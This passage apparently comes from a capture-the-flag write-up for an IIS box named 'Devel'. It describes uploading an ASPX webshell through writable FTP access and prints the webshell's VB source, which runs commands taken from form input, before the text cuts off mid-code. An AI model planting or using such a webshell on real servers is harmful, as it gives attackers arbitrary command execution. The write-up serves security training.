 ![Default Installation](/assets/img/devel/default_iis.png)

Directory Bruteforce gives us nothing useful

## Shell as Web
### Uploading a Webshell
I went back to our `FTP` access to see if i have read/write privilages on the box.

And indeed we can write to the directory.

Since ftp has write persmission here so I will upload an `aspx` webshell

You may be wondering why `aspx` and not php, well microsoft webserver does not support php out of the box unlike apache and nginx.

Looking around, I came across this [Webshell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx)

```html  
<%@ Page Language="VB" Debug="true" %>
<%@ import Namespace="system.IO" %>
<%@ import Namespace="System.Diagnostics" %>

<script runat="server">

Sub RunCmd(Src As Object, E As EventArgs)
Dim myProcess As New Process()
Dim myProcessStartInfo As New ProcessStartInfo(xpath.text)
myProcessStartInfo.UseShellExecute = false
myProcessStartInfo.RedirectStandardOutput = true
myProcess.StartInfo = myProcessStartInfo
myProcessStartInfo.Arguments=xcmd.text
myProcess.Start()

Dim myStreamReader As StreamReader = myProcess.StandardOutput
Dim myString As String = myStreamReader.Readtoend()
myProcess.Close()
mystring=replace(mystring,"<","&lt;")
mystring=replace(mystring,">","&gt;")
result.text= vbcrlf & "<pre>" & mystring & "</pre>"
End Sub

</script>

<html>
<body>
```